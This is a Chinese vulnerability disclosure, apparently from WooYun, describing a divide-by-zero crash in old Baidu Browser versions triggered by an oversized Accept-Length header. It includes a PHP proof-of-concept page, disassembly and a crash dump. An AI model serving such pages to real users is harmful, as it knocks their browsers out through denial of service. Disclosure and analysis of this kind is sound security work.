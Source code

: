 [WooYun: 百度浏览器5.0正式版除以零异常永久性拒绝服务](http://www.wooyun.org/bugs/wooyun-2013-037842)

在老版本的百度浏览器中访问此文件：

```
<?php
    header("Content-type: application/octet-stream");    //返回的文件    
    header("Accept-Ranges: bytes");            //按照字节大小返回
    header("Accept-Length: 500");    //返回文件大小
    header("Content-Length: 500");    //返回文件大小
    header("Content-Disposition: attachment; filename=B");//这里客户端的弹出对话框，对应的文件名
?>

```

当将Accept-Length该成一个超过其unsigned long上限的值时，百度浏览器简单的把其大小修改为了0。

关键是，这个0会在之后被用作计算百分比的分母，于是一个奇葩的现象就会出现：除以0错误。

过程就是如此简单：

```
xnet!AcquireAsynHttpService+0x278f2:
5bc5b502 83d800          sbb     eax,0
5bc5b505 8944241c        mov     dword ptr [esp+1Ch],eax
5bc5b509 89542418        mov     dword ptr [esp+18h],edx
5bc5b50d 0bc0            or      eax,eax
5bc5b50f 7518            jne     xnet!AcquireAsynHttpService+0x27919 (5bc5b529)
5bc5b511 8b4c2418        mov     ecx,dword ptr [esp+18h] ;文件大小
5bc5b515 8b442414        mov     eax,dword ptr [esp+14h] ;已经下载的大小
5bc5b519 33d2            xor     edx,edx
xnet!AcquireAsynHttpService+0x2790b:
5bc5b51b f7f1            div     eax,ecx  ; 0/0

;部分寄存器此时的值:
;eax=00000000 ebx=00000000 ecx=00000000 edx=00000000

5bc5b51d 8bd8            mov     ebx,eax
5bc5b51f 8b442410        mov     eax,dword ptr [esp+10h]
5bc5b523 f7f1            div     eax,ecx
……

```

5.x版本的浏览器的dmp简单查看一下：

```
0:033> !analyze -v
FAULTING_IP: 
xnet!AcquireAsynHttpService+2790b
5bc5b51b f7f1            div     eax,ecx

……（略）
DEFAULT_BUCKET_ID:  STATUS_INTEGER_DIVIDE_BY_ZERO
PRIMARY_PROBLEM_CLASS:  STATUS_INTEGER_DIVIDE_BY_ZERO
BUGCHECK_STR:  APPLICATION_FAULT_STATUS_INTEGER_DIVIDE_BY_ZERO
LAST_CONTROL_TRANSFER:  from 5bc25b4e to 5bc5b51b
STACK_TEXT:  
0a67f95c 5bc25b4e 03684b20 666e1dbf 0383c019 xnet!AcquireAsynHttpService+0x2790b
0a67f984 5bc24817 00000000 00000000 03707e68 xnet+0x25b4e
0a67f9ac 5bc21581 00000000 666e1dbf 00000000 xnet+0x24817
……（略）

```
